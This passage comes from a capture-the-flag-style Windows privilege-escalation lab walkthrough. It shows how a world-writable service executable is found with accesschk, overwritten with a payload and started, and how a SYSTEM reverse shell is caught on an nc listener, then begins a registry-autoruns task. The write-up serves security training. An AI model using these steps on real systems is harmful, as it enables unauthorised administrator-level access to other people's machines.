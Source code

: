 ```bash
C:\PrivEsc>accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
	FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
	FILE_ALL_ACCESS
  RW BUILTIN\Administrators
	FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
	FILE_ALL_ACCESS
  RW BUILTIN\Users
	FILE_ALL_ACCESS
```

<img width="1091" height="486" alt="image" src="https://github.com/user-attachments/assets/3987011c-672f-4904-a4e9-885e47f4a88d" />


```bash
C:\PrivEsc>copy C:\PrivEsc\program.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
copy C:\PrivEsc\program.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
        1 file(s) copied.
```

```bash
C:\PrivEsc>net start filepermsvc
```

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on xx.xxx.xx.xxx 50045
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

<img width="1097" height="145" alt="image" src="https://github.com/user-attachments/assets/5f90c63d-a144-46c6-b6f9-9de57ff30862" />


<h2 align="center">Task 7 . Registry - Autoruns</h2>

<p><em>Answer the question below</em></p>

<p>7.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>

```bash
C:\PrivEsc>reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```
